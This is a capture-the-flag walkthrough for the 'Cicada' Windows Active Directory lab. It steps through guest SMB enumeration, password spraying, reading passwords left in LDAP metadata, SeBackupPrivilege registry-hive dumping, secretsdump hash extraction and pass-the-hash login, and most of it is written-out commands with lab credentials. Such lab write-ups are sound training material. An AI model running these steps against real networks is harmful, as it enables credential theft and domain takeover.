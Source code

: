 ```yaml
---
title: Cicada
date: 2025-06-15
tags: [easy, windows]
---
```



### Task 1

What is the name of the non-default SMB share that is readable with guest access on Cicada?

Running ``smbclient -N -L //<target_ip>`` to connect to the share server without providing a password and list the shares we see two non-default shares named ``DEV`` and ``HR``. 

![alt text](image-ci-1.png)

Next, to see which one is readable as a guest, we will try to connect to those specific shares. Running ``smbclient -N //<target_ip>/<share_name>`` we see the one we have access to read is the ``HR`` share.

![alt text](image-ci-2.png)

### Task 2

What is the name of the file found in the HR share? 

Seen in the previous task, from listing the contents of the HR share, the file name is "Notice from HR.txt".

### Task 3

Which user account is still using the company default password?

To see the contents of the file found, we can transfer it to the host by running ``get "Notice from HR.txt". Opening it, we see a welcoming message to a new hire with the default password but it does not give a username

![alt text](image-ci-3.png)

Then, we can try to enumerate domain users on the target IP and save them to a file by running ``lookupsid.py anonymous@<target_ip> > lookupsid_output.txt``. Then, we save the usernames cleanly we run ``grep '(SidTypeUser)' lookupsid_output.txt | awk -F '\\' '{print $2}' | cut -d' ' -f1 > users.txt``.  Finally using the password found in the file, we can perform a password spray attack by running ``netexec smb <target_ip> -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8'`` and find the username to be michael.wrightson.

![alt text](image-ci-5.png)

### Task 4

Which user has left their password in Active Directory metadata?

We dump the AD metadata using ``ldapdomaindump -u cicada.htb\\michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' <target_ip>``. We then try the command ``grep -iE 'pass|key|desc|comment' domain_users.json`` to look for password in the file matching any lines that contain the mentioned keywords. 

![alt text](image-ci-6.png)

After finding the password we can try to connect with it using the users.txt file from the previous task as ``netexec smb <target_ip> -u users.txt -p 'aRt$Lp#7t*VQ!3'``. 

![alt text](image-ci-7.png)

`<!-- truncate -->`

### Task 5

What is the name of the PowerShell script located in the DEV share?

Connecting to the DEV share with the credential found in the previous task by running ``smbclient //<target_ip>/DEV -U 'cicada.htb\\david.orelious%aRt$Lp#7t*VQ!3'`` we find the Powershell script after listing the contents.

![alt text](image-ci-8.png)

### Task 6

What is the emily.oscars user's password?

We get the file in our host by running ``get Backup_script.ps1`` and after exiting smb we open the file and locate the user's password.

![alt text](image-ci-9.png)

### Task 7

Submit the flag located in the emily.oscars user's home directory.

We will try to connect to the default share with the credential found for emily.oscars by running ``smbclient //<target_ip>/C$ -U 'cicada.htb\\emily.oscars%Q!3@Lp#M6b*7t*Vt'``. We then navigate to here home directory with the relative path ``\Users\emily.oscars.CICADA\DESKTOP\`` and run ``get user.txt`` to get the user flag and open it with ``cat`` on the host machine.

### Task 8

What dangerous privilege does the emily.oscar user have associated with their account?

First we connect with the credentials for the emily user ``evil-winrm -i <host_ip> -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'``. Then, we run ``whoami /priv`` to display the privieges that the user holds on the system and we find that the ``SeBackupPrivilege`` is enabled for the current user which permits reading any file. 

![alt text](image-ci-10.png)

### Task 9 

What is the Administrator user's NTLM hash?

Keeping the evil-winrm session active, we will save the Windows regitstry hives by running the following: 

```
reg save HKLM\SAM C:\Users\emily.oscars\Documents\sam.save
reg save HKLM\SYSTEM C:\Users\emily.oscars\Documents\system.save
``` 

We download both files to the local machine by :
```
download sam.save
download system.save
```

Then, to extract the NTLM hashes we run ``secretsdump.py -system system.save -sam sam.save LOCAL``. This command decrypts the SAM file using the SYSTEM hive and displays local user account hashes. The NTLM hash is the third colon-separated field in the output.

![alt text](image-ci-11.png)

### Task 10

Submit the flag located on the Administrator user's Desktop.

We can now perrform a Pass-The-Hash attack to impersonate the Administrator using the hash we found in the previous task. Since evil-winfrm supports PtH directly we run ``evil-winrm -i <target_ip> -u Administrator -H 2b87e7c93a3e8a0ea4a581937016f341`` and running ``whoami`` we validate we are "cicada\administrator". Navigating to the Desktop we get the flag by running ``cat root.txt``.